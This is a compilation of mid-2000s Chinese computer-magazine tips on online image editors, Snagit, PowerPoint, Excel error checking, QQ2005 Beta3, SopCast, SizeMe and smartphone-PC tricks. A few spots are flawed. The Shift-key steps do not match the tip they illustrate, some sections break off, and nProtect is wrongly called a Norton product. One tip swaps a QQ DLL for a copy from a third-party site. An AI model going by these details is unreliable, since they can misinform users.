有时我们仅仅要处理一些简单的任务，却不得不安装运行一些大型的专业软件，不仅浪费时间和精力，也为系统增添了负担。实际上，如果你只是偶尔才会用到一些软件的话，还不如寻找网络上的一些具有相似功能的服务来完成，比如:只是想对图像进行简单的处理，就可以在网上找到许多的在线图像编辑器。下面为你列举几个网站，大家可以比较一下，挑选一个适合自己使用的。

### 1.免费在线图像编辑器

这个免费在线图像编辑器(Free Online Image Editor)，提供了改变大小、剪裁、添加文字、旋转、颜色调整、添加装饰物等基本的图像处理，还具有优化、还原等功能。它支持最流行的网页图形格式JPG、GIF和PNG，并且还可以导出透明背景GIF。对于一般的图像处理来说，这些功能足够使用了。

第一步:首先登录网站:http://www.creatingonline.com/online_image_editor/index.html;接着单击右上角的Load Image Editor(装载图像编辑器)按钮进入下一个页面，单击上面的“浏览”按钮，弹出选择文件对话框，从本机目录中选择需要编辑的图像，然后单击右侧的UPLOAD按钮上传图像。注意:图像的最大尺寸不能超过1600像素×1200像素，文件大小需在1.5MB以下。

第二步:图像上传后的页面如图3所示，



### 2.网页版 Photoshop

网页版 Photoshop(WEBPS)提供了中、英文两种界面，这对英文不好的朋友来说，无疑是一个好消息。登录http://guozhimeng.qsxx.com/photoshop.asp，所有的功能一目了然。它的操作过程也是先选择上传图片，编辑处理，添加文字，最后保存输出。它的特色之一是提供了多种图片滤镜，能完成一些独特的特效。

### 3.图像编辑软件在线模拟版

登录http://www.imageeditor.net/，你会发现这个在线图像编辑器的界面比较有特色，如果去掉IE的外框，很多人肯定会认为它就是一款本地安装的图像软件。单击菜单“File→Open”命令可上传要处理的图片，其他菜单命令则集成了多种图像处理功能，如剪裁、旋转、改变大小、亮度调整、各种特效等，选择一种命令后，右侧面板会显示出相应的选项面板供你细致调整各种参数，单击Preview可以预览效果，单击Apply则真正应用到图像上。处理完毕，可通过“File→Save”命令将它保存到硬盘中。

## 网络服务，无所不在

在线网络服务的一大特色就是，它不需要在本机上安装专门的软件（有些在线服务可能需要安装一些插件，不过它们一般都很小，下载很快）。上面的几个实例仅仅是在线网络服务中的九牛一毛，下面再给朋友们列举其他一些有意思的应用。

### ★动画制作，就地取材

网址http://www.gifworks.com/image_editor.html 简介：它可以制作出非常酷的GIF动画，能够方便地添加多种特殊效果。它除了能打开本机上的GIF图片外，还能打开网络上的图片，当我们浏览网页碰到好看的GIF动画时，就可以右击它，从属性中找到该GIF的链接，然后拷贝到GIFworks中打开进行编辑，这可谓是“就地取材”了。

### ★三维文字在线做

网址http://www.3dtextmaker.com/ image_editor.html 简介：一个在线制作3D字体Banner的工具。既可以制作静态的三维文字，也可以制作动态文字。它的操作非常简单：选择字体；设置颜色；定制大小；添加特效；输入文本；最后单击“Make 3D Text!”按钮即可。

### ★到我的留言本上去涂鸦

网址http://www.flashin.com/ 简介：信手涂鸦似乎是人的天性，君不见风景名胜处，总是有不少人刻画一些“XXX到此一游”的“佳”句么，不过这可是在毁坏公物啊。而Flashin.com所推出的Flash涂鸦本，却可以让你“乱涂乱画”，并且不用担心被人批评。Flash涂鸦本实际上就是一个网上留言本系统，它除了让你留下文字信息外，还提供了许多绘画工具供你在网上涂抹，甚至可以邀请你的朋友一起来画，有点意思吧。你也可以将自己的涂鸦作品保存到自己的电脑上。

### ★免费在线查病毒

网址:http://online.rising.com.cn/free/index.htm 简介：不用安装杀毒软件，在线也能查杀电脑中的病毒，不过一般在线杀毒是要按月收取服务费的，所以这里先体验一下免费的查毒功能，看看你的电脑是不是安全。现在大多数杀毒厂家都提供有在线查杀病毒的服务，上面的网址是瑞星的免费在线查毒，按照提示一步一步操作就可以了。

### ★不装 MSN 也能在线聊

网址:http://webmessenger.msn.com/ 简介：在学校、在朋友家或任何你不能安装MSN Messenger软件的地方，你就可以使用在线MSN来随时与世界各地的好友聊天。登录上面的网址后，单击“启动MSN Web Messenger”按钮，在接下来的登录页面中，输入电子邮件地址、密码，单击“登录”后，就会打开一个界面与MSN非常相似的网页，操作方法与在本机安装的MSN中一样，就不详细说了。

### ★我形我酷

网址:http://www.eoop.com/Default.aspx 简介：可以在在线制作MSN头像、QQ头像、论坛头像、论坛签名、邮件签名等，这样就可以在网上耍耍酷了。具体的操作方法，请参阅本刊2005年第15期《书法家、设计师统统请到家！》一文，该文中还有其他签名网站的介绍，非常不错哦。

（流言）

## 去排 Photoshop，Snagit 也玩数码特效

### 实例1:给照片调调景深

我们拍摄照片时常常遇到背景杂乱不堪的情况，让人看了很不舒服。摄影高手常会使用大光圈缩小景深来突出主题，但有些菜鸟总是在拍完照片之后才会发现这个问题，怎么办？用Snagit即可迎刃而解。

- 第一步:启动Snagit，单击左侧“编辑”标签，再单击右侧“打开Snagit编辑器”。在打开的编辑器窗口中，单击“打开”按钮打开一幅需调整的照片，点选左侧“工具”栏中的选区工具(即虚线框图标)，再在下面的“形状”中选择“手绘选区”工具(最后那个图标)。
- 第二步:就像使用铅笔描图一样，将主体人像的轮廓描画出来，放开鼠标键后选区会自动闭合。这里的选区大可不必一丝不苟，因为这不是抠像合成，只是虚化未选取部分的图像而已。

小提示：按数字键盘上的“+”号键可以将照片适当放大，让主人像充满画布，可以方便对人像的选取。按“-”号键可缩小显示图像。

- 第三步:选择菜单“效果→聚光和放大”命令(也可直接点击右侧“任务”窗格中的“聚光和放大”项)，看到右边的参数栏了吧？调节“模糊背景”参数为15%，再将“背景暗度”调为10%，怎么样，背景是不是被很好地虚化了？

### 实例2:远景变近景

这个方法特别适合于数码相机光学变焦不强的朋友，想把远处的景物拍得大一些，可爱机往往“鞭长不及”，这时Snagit也能帮上你。

- 第一步:使用选区工具勾选远处的对象。这里最好还是使用“手绘选区”工具，但如果想连背景一起拉近，也可使用方框或椭圆工具圈选，以降低操作难度。
- 第二步:在“聚光和放大”特效窗口中，拖动“放大(百分比)”的滑杆，你看看是不是远处的景物被拉近了？
- 第三步:调整“位置”栏中的“水平偏移”和“垂直偏移”两个参数，仔细调整拉过来的景物位置，使其自然与原图融合，一幅不留痕迹的特效图就完成了。注意:用此法处理的原照片分辨率要高一些，否则远处的景物放大后会不清晰。

### 实例3:制作梦幻图片

首先打开一幅图像，然后选择菜单命令“效果→图像处理→衬托”，在右侧“衬托”窗格中，单击“打开”图标导入第二张要合成的照片(注意:两张图片的长宽比例要一致，否则会出现失真)，即可制作出效果不错的梦幻图片来。“图像处理”菜单中还有其他多个特效滤镜，有兴趣的朋友可自己试试。

（山东 猫咪老爸）

## PowerPoint 字体守护者

实际工作中，也许你会遇到这样的问题:你在PowerPoint幻灯片中使用了一些效果非常酷的字体，但将幻灯片拷贝到其他人的电脑上播放时，这些字体却被替换成平平常常的宋体了，而且因为字体大小的改变，段落格式也变得参差不齐，本来效果非常好的演示变得极为难看。这是因为你使用了其他人电脑中没有的字体而导致的。通过下面的方法将特有字体嵌入到幻灯片中，就可以解决这一烦恼了。

- 第一步:在PowerPoint中制作好幻灯片后，执行“文件→另存为”菜单命令，打开保存对话框。
- 第二步:单击保存对话框上面的“工具”按钮，从下拉菜单中选择“保存选项”(见图)打开一个选项对话框。
- 第三步:在保存选项对话框中，选中“嵌入TrueType字体”项，再根据实际需要，选择其下的“只嵌入所用字符(适于减少文件大小)”或者“嵌入所有字符(适于其他人编辑)”项。一般选择前者就可以了。确定后保存文件，幻灯片所用字体会被嵌入到文件中，不用再担心别人的电脑中没有安装你所想要的字体了。

(北京 一页)

## 火眼金睛，巧提 Excel 公式里的“虫子”

故事：沙僧找到八戒，说道：“二哥，感谢这段时间来你教了我不少的 Excel 函数知识，但学习过程中总会出现一些难题，有时明明是一步步按照你所说的步骤做的，可结果就是不正确，常常还有一些莫名其妙的错误，可我总不能随时随地找你去问吧。”八戒一听，笑道：“虽然你不能随时问我，但却可以随时问 Excel 啊。”看着沙僧疑惑的样子，八戒继续说道：“Excel 自带了一套错误诊断工具及方法，掌握了它们，就等于是找到一个如影随形的老师啦。今天，就让我们来认识一下它们，也会方便以后的学习。”

### 实战 1：公式错误检查器

当我们在 Word 中拼写了错误的单词时，该单词下面会显示红色（或绿色）的波浪线加以提示。Excel 中的“公式错误检查器”有着类似的功能，当某一单元格中包含的公式有错误时，它的左上角会显示一个绿色的小三角作为错误指示器。下面我们演示一下如何借助公式错误检查器来除错。

- 第一步：假设在 A1 中输入 2，B1 中输入 4，D1 中输入公式“=A1/B1”，此时公式是正确的，显示值为 0.5。当工作表变得越来越复杂时，我们有可能会误删除一些单元格中的数值，而 Excel 会把空白单元格作为 0 值来处理。本例，假如误将 B1 中的数字删除，这时 D1 中的公式等于就变成了“=2/0”。0 是不能作为除数的（这是数学常识），所以 D1 中的公式就变成错误的了，此时 D1 中将显示出错误代码，同时其左上角也显示出错误指示器（绿色小三角）。

- 第二步：如图 1 所示，选中包含错误公式的单元格时，其左侧会显示出智能标记（即感叹号图标），将光标移到智能标记上，就会弹出一条消息，说明这是什么错误。



- 第三步：单击智能标记，将弹出一个菜单，为改正这个错误公式提供了多种帮助（见图 2）。



1. 关于此错误的帮助：点击此项，将快速跳转到 Excel 关于这个错误的帮助主题上，让我们能了解此错误的产生原因及解决方法。
2. 显示计算步骤：点选此项，将打开“公式求值”工具窗口，通过一步一步单项求值，从而找出错误的原因（见图 3）。单击“求值”按钮，将计算出上面公式中带下划线的那一项，初始状态是整个公式都带下划线，所以求的是整个公式的值，必须再单击“重新启动”，才能继续每一项的单项求值；单击“步入”按钮，可进入每一项的内部，显示该项的从属单元格（如果有的话），单击“步出”可一步步退出从属单元格，回到顶层。
3. 忽略错误：选中此项，将保留公式的现有内容，智能标记随之消失。
4. 在公式编辑栏中编辑：选中此项将进入编辑状态，即可手工改正公式。其实更快捷的方式是，双击错误公式单元格就可以了。
5. 错误检查选项：选择此项，将打开如图 3 所示的对话框。这里用来控制错误提示的样式（如错误指示器颜色可改成红色等），以及哪些错误才需要指示等。对初学者来说，使用默认设置即可。



如果你前面选择了“忽略错误”，那么再选择该单元格时就不会出现智能标记了，单击选项窗口中的“重新设置忽略错误”按钮则可以找回它。但是智能标记已经不显示了，又从哪里调出这个选项窗口呢？可执行菜单“工具→选项”命令，再点选“错误检查”选项卡即可。

6. 显示公式审核工具栏：这是一个强大的公式错误纠正工具，下面我们再作单独的介绍。

### 实战 2：正本清源 挖“罪魁祸首”

在上面举了一个简单的例子：删除掉 B1 单元格中的数值导致 D1 中的公式出现 0 除数的情况。一般我们会认为，这个错误太低级了，不可能会犯的。其实不然，因为在实际使用中的情况可能就复杂得多，大型工作簿中经常存在着连环引用，如果某一环节出错，就会导致与它相关的其他公式出错，这时就很难找到错误的根源。下面再举一个简单的连环引用的例子，并通过“公式审核”中的“追踪引用单元格”工具一步步追踪错误的源头。

- 第一步：假设，我们在 A1 中输入 2，B1 中输入 4，D1 中输入 6；接着在 A6 中输入公式“=A1/B1”，将得到值 0.5；在 B8 中输入公式“=A6*D1”，将得到值 3，这里的“*”号等于数学中的乘号“×”；在 D10 中输入公式“=B8”，直接引用 B8 的值，也是 3。
- 第二步：为了体验“追踪引用单元格”工具的使用方法，这里我们人为制造一个错误，就是将 B1 单元格中的数值删除，这样，其 A6 中的公式出现 0 除数，因而显示出错误。可以看到引用或间接引用了 A6 数值的几个单元格，都显示为错误了。假如这是一个数据量非常大，结构非常复杂的工作表，当我们只看到 D10 单元格出现的错误时，肯定很难一下子找到错误的源头。
- 第三步：选中 D10 单元格，再单击左侧出现的智能标记，选择“显示公式审核工具栏”将其调出（见图 4）。单击“追踪引用单元格”按钮，将会出现一个红箭头指出它所引用的单元格，本例中即是 B8，红箭头表示引用的单元格有错误。点选 B8，再单击“追踪引用单元格”按钮，又会以红箭头标出它的引用单元格即 A6。在 B8 单元格的公式中，我们还引用了 D1 中的数据，所以还会显示一个蓝箭头引向 D1 单元格，蓝色箭头表示正确的引用。再点选 A6，单击“追踪引用单元格”按钮，A6 中引用了 A1 和 B1，所以会显示两条蓝箭头与 A6 相连。B1 虽然是导致 A6 出错的原因，但它本身是合法的，所以也以蓝箭头表示（见图 5）。至此，我们找到了这个错误的源头，仔细分析 A6 中公式的错误，就可以知道原因并加以改正了。本例，只要在 B1 中输入有效数字即可解决问题。





### 小提示

- 如果在公式审核工具栏上看不到“追踪引用单元格”按钮，可执行下列操作：执行菜单命令“工具→选项”，切换到选项对话框上的“视图”选项卡。确保在“对象”下，“全部显示”或“显示占位符”已选中，单击“确定”返回即可。
- 如果想取消追踪箭头，可点击公式审核工具栏上的“取消所有追踪箭头”图标。

### 实战 3：千里追踪不放松

在实战 2 中，我们可以用“追踪引用单元格”工具找到同一个工作表中的错误之源，但当引用的单元格来自于其他不同的工作表中时（比如我们将 B8、D10 中的公式分别移到工作表 Sheet2 和 Sheet3 中），它只会显示出一个类似电子表样的连接图标，但是无法查看该单元格的具体内容，查起错来很不方便。这时，我们可以使用监视窗口。

- 第一步：选中公式出错的单元格，点击智能标记，选择“显示公式审核工具栏”将其调出，单击其上的“显示监视窗口”按钮调出监视窗口（也可以执行菜单命令“工具→公式审核→显示监视窗口”将其调出）。
- 第二步：单击监视窗口上的“添加监视”按钮，显示添加监视点小窗口，默认已选中前面点击选中的单元格了，所以这里我们直接单击“添加”按钮即可将其加入监视窗口中，此时就可以看到该单元格所在的工作表位置、单元格名称及其值与公式。
- 第三步：如图 6 所示，B1 中的值显示为错误，并且它的公式中有对其他单元格的引用，现在就来查查引用的单元格的内容。再...



## Office 办公中妙用 Shift 键

### 超强扩展“文件”菜单

我们用 Word 办公的时候，经常要打开多个文件，当编辑修改完毕，要退出 Word 的时候，总是要一个一个文件保存和关闭，是不是很麻烦？其实使用下面的秘技，你就可以一次性保存和关闭所有打开的 Word 文档：

在 Word 中，按住 Shift 键不放，这时再点击“文件”菜单，你会发现“文件”菜单项跟平时不太一样了，其中多出了“全部保存”等命令。

1. 单击“文件→保存”菜单命令
2. 在打开的保存对话框中进行以下设置：
   选择保存路径：
   输入保存文件的名称
3. 最后单击“保存”按钮就可以了。

### 随心所欲使用编号或项目符号

在 Word 中，经常要以编号或者项目符号的形式来表现一些内容。Word 中的编号(或项目符)经常是自动生成的，只要第一行内容加上了编号(或项目符)，按下回车键后，第二行内容就会自动被加上编号(或项目符)。这个功能虽然方便，但是要像如图所示的效果那样，第二、三行跳过编号，第四行再接着自动编号，就比较麻烦了。其实在不需要自动编号的行，在按回车键的同时也按下 Shift 键，就可以跳过了。本技巧也可应用于 PowerPoint 中。

### 让“播放”不再自动

不少人都喜欢用微软的自动播放功能，放入一张光盘，自动弹出播放窗口，你可以从中选择要进行的操作，同样的窗口，在插入移动硬盘及闪存盘后也能看到。有人喜欢自然有人烦，于是很多人就通过修改注册表来去除这个软件，不过非常麻烦，这里就为大家介绍一款专门解决此问题的软件。

### Autoplay Repair小档案

软件版本：1.1
软件大小：
软件性质：免费软件
适用平台：Windows XP
下载地址：http://www.newhua.com/cfan/200520/autoplayrepair.zip
软件备注：使用软件前，需要先安装.NET Framework(下载地址：http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=262d25e3-f589-4842-8157-034d1e7cf3a3)

### 实例1：去除自动播放功能

运行软件，点击“禁止自动播放”标签，在弹出窗口中去除闪存盘盘符的勾选，点击“应用”，这样，以后插入闪存盘，就会有自动播放的提示了。如果要恢复则恢复勾选即可。

### 实例2：用自己喜欢的播放器播放音乐 CD

很多朋友都有自己喜欢的播放器，但这些播放器一般不会添加到自动播放列表中，我们如何添加呢？下面我们就以添加暴风影音为例，为大家讲解如何进行操作。

打开软件，切换至“音频 CD”标签。点击“添加自动播放接口”，在“操作”及“提供者”中分别输入“Media Player Classic”和“暴风影音”，接着将“应用程序”设置为暴风影音所在目录，如“D:\Program Files\Ringz Studio\Storm Codec\mplayerc.exe”，将“参数”修改为“%1”(不含外侧引号)，点击“应用”。

经过这样设置，以后再插入 CD，就可以在弹出窗口中直接选择暴风影音播放了。

### 小提示

使用软件界面右下角的“创建备份文档”，可以将软件的设置导出为注册表文件。必要时再使用“恢复备份文档”进行恢复。

### 边看边录，还能放的网络电视

《电脑爱好者》第19期已经介绍了多种 P2P 网络电视，这里再为大家介绍一款内置录制工具的 P2P 网络电视 SopCast。

### SopCast小档案

软件版本：0.3.2
软件大小：1882KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.onlinedown.net/soft/41564.htm

### 1. 用 SopCast 看电视

第一步：下载软件，解压缩后，直接运行 SopCast.exe。
第二步：点击“Config”标签，在“Language”下拉菜单中选择“中国(简体)”，“确定”后，右击系统托盘的软件图标，选择“Quit”，重新打开，完成软件界面的中文化。
第三步：在“频道”标签下双击要看的频道(见图)，稍候就会打开 Windows Media Player，进行播放了。

### 2. 用 SopCast 录电视

SopCast 最大的特色功能就是内置的录像功能，而且方法很简单：播放电视后，点击红色按钮，在弹出窗口中输入保存位置及文件名，注意扩展名要输入“.WMV”。

需要注意，用 SopCast 录制的节目没有建立索引文件，需要用本刊第19期《新软物语》中介绍的 All Media Fixer(原版下载地址：http://www.newhua.com/cfan/200519/MediaFixer.exe，汉化版下载地址：http://www.newhua.com/cfan/200519/hamf.rar)为媒体文件重建索引。

### 3. 架设网络电视

目前 SopCast 支持自己架设网络电视，但仅供自己测试，无法让网友共享。这里我们只简单地介绍一下，有兴趣的朋友可以进一步研究：先在“配置”标签下设置 URL 地址为“http://sop.sopcast.org/sop/broker_noauth”，在“我的电台”标签下的“文件”中设置播放的文件(软件支持 ASF、RMVB、WMV 等流媒体格式，还可使用 SQL 的播放列表，格式为每个节目名及文件名占一行)。最后，点击“播放”按钮即可。

## QQ2005 Beta3 让你全屏视频、安全聊天

经过长时间的等待，腾讯终于发布了网友们期盼已久的QQ2005 Beta3(下载地址：http://im.qq.com/qq/dlqq.shtml)，新版本的QQ也增加了超级视频、地理位置共享和天气预报、安全中心等功能，下面我们就来体验一下这些新功能吧。

### 共享地理位置和天气预报

启用了“共享地理位置和天气预报”功能的用户可以在自己的头像“用户提示”里看到自己所处城市的名称和天气预报(见图)。如果你的好友打开了此功能，也可以在聊天窗口右侧看到对方的天气情况。开启此功能的方法主要有三种。



将鼠标移至 QQ 面板最上侧的天气符号处

- 方法一：第一次登录 QQ2005 Beta3 后，QQ主面板上方会有一个“单击这里了解地理位置共享...”的提示，点击此提示，在弹出窗口中点击“是”即可。
- 方法二：将鼠标移至 QQ 面板最上侧自己的头像处，点击“用户提示”窗口中的三角按钮，设置显示或关闭“共享地理位置”功能。
- 方法三：在QQ主窗口中点击“QQ菜单→设置→个人设置”，勾选“个人资料”项下“显示我的地理位置”即可。

> 小提示
> 在使用过程中，如果发现 QQ 显示的地理位置有误，可以将鼠标移动到自己的 QQ 头像上，待出现地理位置信息后，将鼠标放到上面稍作停留，就会出现“报告有误的地理位置”的提示框，点击后“提交地理位置”的网页会随之打开，提交一个更正确的地理位置即可。

### QQ 聊天更安全

QQ2005 Beta3 的最大的变化就是更安全了，从登录到接收文件，直到好友发送的网页，无处不体现出 QQ 在安全方面下的功夫。

#### 1. 安全从登录开始

打开 QQ2005 Beta3，我们就会发现原来的软键盘功能找不到了，取而代之的是密码框右侧的一把金色的**安全锁**，这是 QQ2005 Beta3 的键盘加密保护功能。这功能对用户密码输入的保护比软键盘更有效、更安全。它使用了 nProtect 键盘加密保护技术，能防止用户的密码输入不被木马等盗号工具被窃取。

> 你知道吗？
> nProtect 键盘加密保护系统针对个人用户信息安全的反钓鱼工具，主要用来保护用户的信息不被键盘记录工具所拦截。可以支持包括 Windows 98 在内的几乎所有 Windows 系统。

QQ2005 Beta3 启动后，nProtect 键盘加密保护系统会自动启动，用户敲击键盘输入密码时，nProtect 键盘加密保护系统会自动对键盘信息进行实时的加密，防止黑客读取正确的键盘信息。即使电脑中有木马程序，黑客也无法正确地读取键盘信息了。

nProtect 是韩国铁克公司出品的 Norton 系列产品中的一款。完整的 nProtect 服务包括键盘、鼠标保护；阻止 keylogger 或其他钓鱼性质的黑客工具；当注册表发生改变时，该软件会自动发出提醒；保护用户免于木马盗号的危险；消灭用户上网痕迹，包括 Cookies、服务器缓冲文件、临时文件、上网历史记录和输入的网址等信息；取消用户电脑中的工作痕迹，如最近使用的程序名单等。

由于使用了最新的 nProtect 技术，QQ2005 Beta3 也出现了几个问题：①新版本不支持密码的复制及粘贴，所以使用中文密码的朋友请先在低版本中修改为英文密码后，再使用 Beta3；②安装好 QQ2005 Beta3 后，会自动添加系统自带的标准英文输入法，如果你使用了其他输入法，可能会造成 QQ 与输入法的冲突，造成 QQ 无法正常登录。所以当遇到 QQ 无法正常登录时，可以试着手动将默认输入法修改为标准英文（输入法设置为 EN），登录后，再使用自己需要的输入法。此问题会在 QQ2005 正式版中修正；③如果安全锁上有红叉，可以先在系统管理员权限下运行 QQ，并建议查杀病毒，重装 QQ。

如果你不想让 QQ 添加 EN 的输入法(删除后，再次登录 QQ 还会添加)，那么可以从 http://www.newhua.com/cfan/200520/qqmainframe.rar 下载文件，将解压缩的文件替换 QQ 所在目录同名文件 QQMainFrame.dll，这样再将系统中的 EN 输入法删除后，再登录 QQ，输入法也不会被添加了。

#### 2. 文件传输更安全

平常经常有黑客发送“我的照片.exe”这种文件，骗取一般网友运行木马服务器端程序。在 QQ2005 Beta3 中针对这个问题进行了防护：在 QQ 面板中点击“QQ 菜单→设置→安全设置”，在窗口左侧点击“网络信息安全”，在右侧选择“安全级 – 中(推荐)”，如果为了更安全，可以设置为“安全级 – 高”。

#### 3. 链接不能随意点

经常有黑客会发送链接给你，或是好友中了 QQ 尾巴病毒，给你发送带木马链接的网址，针对这种情况，这次 QQ2005 Beta3 也同样做了防范。当好友发送链接后，我们将鼠标移至该链接上，就会显示出进一步的操作提示，建议勾选“浏览链接时自动检查安全性”项，如果为了更加安全，可以去除“链接可直接点击浏览”项的勾选。

> 小提示
> ★在“安全设置”中同样可对网址链接进行防范。
> ★如果有人通过临时对话的方式，给你发送垃圾信息或网址，可以通过下面的方法来阻止消息：点击“QQ菜单→设置→系统设置”，在“陌生人设置”中去除“接收陌生人会话消息”项的勾选。

### 并不完美的超级视频

新版 QQ 中，最大的变化就应该算是全屏的超级视频了，不过目前超级视频使用起来还有几个必备条件：双方同时使用 QQ2005 Beta3，且必须为网络直连(即不能内网对内网)，电脑配置还要够高(主频至少 1GHz 以上)，如果不能满足条件，超级视频会自动转为普通模式。

> 小提示
> QQ 的系统配置检测是实时计算的，在检测某些支持自动降频的 CPU 时，结果会有偏差，此问题会在正式版中修正。

打开 QQ 聊天窗口，点击左上角的“语音视频聊天”按钮，在弹出菜单中选择“超级视频”，就可以和好友一起进行视频聊天了，如果网速较慢或系统配置不高，可以点击“普通模式”按钮，这时视频模式自动变为普通模式。

> 小提示
> 视频窗口一收到就会弹出，非常烦人，在新版 QQ 中提供了“防打扰”功能：点击“QQ 菜单→设置→系统设置”，在“超级视频设置”中去除“收到视频请求时自动弹出窗口”项的勾选即可。

新版本的 QQ 还有一些新增功能，比如上期我们介绍过的 QQ TV，实时音乐状态显示等等，有兴趣的朋友可以自己尝试。

小编有话说：很多朋友应该都注意到 QQ2005 Beta3 中“群/校友录”里很多群都显示“未登记”字样，其实这是由于没有更新群信息所致，打开“未登记”的群，在右上角的“群栏目”窗格中点击“>>”按钮，选择“更新群信息”，这样“未登记”字样就会消失了。

(河北 樱木花道 克劳德)

## 如何抉择？听 SizeMe

当有很多数据需要刻录时，不少人都要精打细算，找出最佳组合。既不能超出刻录盘的容量，又要最大利用光盘容量，这时应该怎么办呢？除《电脑爱好者》以前介绍过的 FiiCD 外，现在又多了一种选择——SizeMe。

- SizeMe 小档案
软件版本：1.3.2
软件大小：256KB
软件性质：免费软件
适用平台：Windows 9x/2000/XP
下载地址：http://www.newhua.com/cfan/200520/SizeMeInstallation.exe
软件备注：使用软件时，会发现总有一个捐助窗口，如果觉得它妨碍了操作，可以用下面方法去除它：打开“注册表编辑器”，找到[HKEY_CURRENT_USER\Software\www.SizeMe\www.SizeMe\Settings]，在其下新建一个名为 DisableDonate 的双字节值(DWORD)，键值为 1 即可。

第一步：安装并运行软件，可看到软件共有三个窗格，在最右侧窗格“Actions”项的“Preset”(调整)下拉菜单中选择刻录光盘的类型，如 700MB、4.7GB 等，然后点击“Scan now directory”(打开文件夹)项，在弹出窗口中选择刻录数据所在的文件夹。

第二步：软件会自动计算出每张光盘的尺寸，并进行分割。注意软件不会对子文件夹进行破坏分割，在最左侧的窗格中分割好的文件夹用绿色表示，黄色表示文件夹下没有文件，而红色表示此文件夹下尺寸过大，无法完成分割。

在窗口右侧“Settings”下，可以进行一些具体设置，比如去除“Check updates at startup”(启动时检查新版本)的勾选，勾选“Marked filled discs above 97%”(标记空间占用超过 97% 的光盘)，在“Comparison style”(比较风格)下可以设置不同的文件填充方式，以最大化利用好每张刻录光盘。当重新设置后，点击“Actions”下的“Rescan same directory”(重新扫描相同文件夹)即可。

在中间的格中，右击光盘图标或是文件图标后，会有相应操作菜单，这里要提醒大家，右击光盘图标后，其中的“Delete”项表示直接将光盘所链接的虚拟文件删除，而不是将光盘从列表中删除(见图)。



可以进行复制、移动等操作

> 小提示
> 在最左侧文件窗格中，右击后，会出现相应的扫描菜单。

第三步：打开 Nero 等刻录光盘工具，将 SizeMe 中间窗格中的光盘图标拖拽至 Nero 等软件中，完成添加，进行刻录。

> 小提示
> 在“资源管理器”中，右击刻录数据所在的文件夹，在弹出菜单中选择“Find sizes with www.SizeMe”项，可快速扫描指定的文件夹。

(北京 苹果核)## 当“聪明”手机遇到“聪明”电脑……

随着桑达8390、摩托罗拉MPX220、多普达565等一些低价位智能手机的热销，智能手机也逐渐被普通消费者所认识和接受，并日益火爆。它除了本身具备比普通手机更强的媒体播放和事务助理功能外，更能方便地与电脑连接和协作，实现许多独特而实用的功能应用，可以说是电脑的超级伴侣。下面笔者就以自己的桑达8390为例，向大家介绍一些智能手机与电脑的联合应用，相信会让你对智能手机的强大功能有更深入的认识和体会。

## 手机摄像头“借”给电脑用

多年未见的老同学突然在QQ上相遇，老同学非要与我视频聊天，想看看我的近况，可惜我的摄像头前天刚坏掉，还没有买新的，怎么办？突然想到我的8390有摄像头，能否借来一用呢？没想到还真成功了。

-   第一步：首先的要求是电脑中已经安装有ActiveSync同步连接软件，并已经使手机和电脑实现连接，这个步骤相信拥有手机的朋友都已经轻车熟路了，具体过程不再介绍。

-   第二步：下载并安装Pocket Controller软件，这是一款用电脑控制智能手机/掌上电脑的软件，它可以让你在电脑上直接对手机进行完全控制，同时，我们还可以在电脑屏幕上看到手机屏幕上显示的内容，这正是需要利用的功能，这样就可以在电脑屏幕上看到手机摄像头中的内容了，而且它的屏幕更新速度要比其他同类工具快一些，这也是我选择它的重要原因。

Pocket Controller Enterprise小档案
软件版本:4.12
软件大小:4160KB
软件性质:共享软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200520/Pocketn.rar

-   第三步：运行Pocket Controller，双击主窗口左上部分设备列表中的“John Smith”，这时会弹出连接选择对话框，选中使用的“ActiveSync(USB)”（见图1），单击“确认”按钮，它会提示安装手机端服务程序，单击“是”按钮，这时可以在手机上看到安装程序的提示，选择安装到“电话”上即可。安装完成后，再次双击“John Smith”并选择使用“ActiveSync(USB)”连接，即可在Pocket Controller主窗口中看到手机屏幕的内容了。在手机开始菜单中打开照相机程序，这时在电脑屏幕上就能看到手机摄像头拍摄到的画面了。



-   第四步：从http://www.newhua.com/cfan/200516/softcam.rar下载并安装虚拟摄像头程序Softcam。我们要用它把Pocket Controller主窗口中显示的手机摄像头画面虚拟为QQ视频聊天窗口中的摄像头画面。在QQ主菜单中选择“工具→语音视频调节”，在调节向导中的“视频设备”下拉框中选择“Luminosity Softcam[VFW]”，单击“下一步”按钮调节好声音设置，再单击“下一步”按钮开始视频调节，这时在系统托盘中会出现Softcam的摄像机图标，单击图标选择“显示面板”，可以在屏幕右上方看到Softcam的控制窗口，单击“设置”按钮弹出选项，在“默认动态视频”下拉框中选择“SoftCam 屏幕捕捉”，单击“确定”按钮保存设置。然后再将上面的状态按钮由“已存”调整为“活动”，这时电脑屏幕上会出现一个可移动方框，而QQ视频调节向导中显示的正是方框中的图像，这就表示已经设置成功，单击“完成”按钮。

-   第五步：打开QQ视频聊天窗口，Softcam控制窗口会自动出现，调整状态为“活动”，然后把Pocket Controller主窗口切换为当前屏幕，把可移动方框移到手机摄像头画面上，这时在QQ视频聊天窗口中就可以看到手机摄像头的内容了。现在，手机摄像头已经成功被电脑“借”用了。

> 小提示
Softcam实际上是把方框中的内容虚拟为摄像头，因为要保证Pocket Controller主窗口显示的手机摄像头画面不被QQ聊天窗口或者其他窗口盖住，为了不互相影响，建议将屏幕分辨率调整为1024×768以上为宜，同时可以将Pocket Controller主窗口中手机屏幕预览窗格与左边设备树之间的分隔线向左调整，以使手机屏幕预览区左移，避免被QQ聊天窗口盖住。

## 无线上网我来帮

本来想让我的笔记本电脑体验一下GPRS无线上网的感觉，但到移动公司一问，GPRS上网卡含年费捆绑销售，要一千多块！听说智能手机也可以当无线猫上网，于是赶快把我的8390拿来试验，呵呵，喝咖啡时用笔记本无线上网就是爽。

-   第一步：开通并设置GPRS上网。当然了，首先手机得开通GPRS上网服务，到移动营业厅、拨打1860或者在中国移动的服务网站上均可申请开通，开通服务后重启手机，在手机屏幕顶端会出现一个“G”标志，表示已经开通成功。同时还要在手机中设置GPRS上网参数，笔者的8390手机可以通过安装并运行随机光盘中的“手机伴侣”程序，单击“设置→电信运营商”，直接选择所使用的手机卡类型即可自动设置相关参数。其他手机的设置方法请参考使用说明书，这里不再详细介绍。总之，这一步要做到你的手机能够使用GPRS正常上网即可。

> 小提示
